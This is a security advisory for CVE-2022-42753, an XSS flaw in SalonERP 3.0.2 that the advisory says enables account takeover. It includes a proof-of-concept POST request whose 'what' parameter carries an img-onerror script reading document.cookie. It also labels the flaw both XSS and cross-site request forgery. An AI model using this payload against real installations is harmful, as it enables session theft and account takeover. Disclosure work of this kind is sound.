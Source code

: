 ```yaml
---
slug: advisories/hardway/
title: SalonERP 3.0.2 - XSS to Account Takeover
authors: Carlos Bello
writer: cbello
codename: hardway
product: SalonERP 3.0.2 - XSS to Account Takeover
date: 2022-10-27 18:30 COT
cveid: CVE-2022-42753
severity: 8.8
description: SalonERP 3.0.2      -      XSS to Account Takeover
keywords: Fluid Attacks, Security, Vulnerabilities, Salon ERP, Account Takeover, XSS
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | SalonERP 3.0.2 - XSS to Account Takeover                           |
| **Code name**         | [Hardway](https://en.wikipedia.org/wiki/Hardway)                   |
| **Product**           | SalonERP                                                           |
| **Affected versions** | Version 3.0.2                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-27                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Cross-site request forgery                                                                                                  |
| **Rule**              | [007. Cross-site request forgery](https://docs.fluidattacks.com/criteria/vulnerabilities/007)                               |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 8.8                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-42753](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-42753)                                             |

## Description

SalonERP version 3.0.2 allows an external attacker to steal the cookie
of arbitrary users. This is possible because the application does not
correctly validate the page parameter against XSS attacks.

## Vulnerability

The XSS present in SalonERP 3.0.2, allows an unauthenticated remote
attacker to perform an Account Takeover. To trigger this vulnerability,
we will need to send the following malicious link to an victim in order
to hack their account:

```txt
POST /try/backend.php HTTP/2
Host: salonerp.sourceforge.io
Cookie: salonerp-id=EnznqgZ8cAX2N7stbSLl; PHPSESSID=2f8c90c0e918726eed019427af65f438
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Origin: https://hacker.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 61

what=settings<img+src=1+onerror="(alert)(document.cookie)" />
```

## Exploitation

In this attack we will obtain the victim user account, through a malicious
link.

![xss-to-accounttakeover-salonerp](https://user-images.githubusercontent.com/51862990/198411956-e65c8e7c-4e48-420b-abd5-51b4f0214716.gif)

## Our security policy

We have reserved the CVE-2022-42753 to refer to these issues from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: SalonERP 3.0.2

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://salonerp.sourceforge.io/>

## Timeline

<time-lapse
  discovered="2022-10-13"
  contacted="2022-10-13"
  replied="2022-10-13"
  confirmed=""
  patched=""
  disclosure="2022-10-27">
</time-lapse>
